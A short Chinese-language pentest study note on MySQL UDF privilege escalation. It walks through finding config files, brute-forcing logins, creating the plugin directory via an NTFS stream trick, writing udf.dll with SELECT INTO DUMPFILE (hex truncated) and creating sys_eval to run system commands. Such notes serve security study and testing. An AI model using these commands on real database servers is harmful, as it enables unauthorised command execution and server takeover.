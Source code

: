 流程:服务探针-信息收集-提权利用-获取权限

#### UDF提权知识点: 

(基于MYSQL调用命令 执行函数)读取网站数据库配置文件( 了解其命名规则及查找技巧)

```
sql data inc config conn database common include等
```

读取数据库存储或备份文件(了解其数据库存储格式及对应内容)

```
@@basedir/data/数据库名/表名.myd 
```

利用脚本暴力猜解(了解数据库是否支持外联及如何开启外联)
远程本地暴力猜解，服务器本地暴力猜解
利用自定义执行函数导出dll文件进行命令执行

```
select version()
select @@basedir
```

手工创建plugin目录或利用NTFS流创建

```
select 'x' into dumpfile '目录/lib/plugin::INDEX_ALLOCATION' ;
mysql<5.1 导出目录c: /windows或system32

mysql=>5.1导出安装目录/lib/plugin/
```

如果没有路径，尝试创建路径

```sql
select 233 into dumpfile 'D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin::$index_allocation';
```

```c
show variables like "%compile%";     #查看数据库是多少位的
```

选择多少位的udf.dll

写入动态链接库

```sql
SELECT 0x7f454c4602... INTO DUMPFILE 'D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll';
```

国光大佬博客有现成的16进制代码：https://www.sqlsec.com/tools/udf.html

### 创建自定义函数并调用命令

```
mysql > CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
```
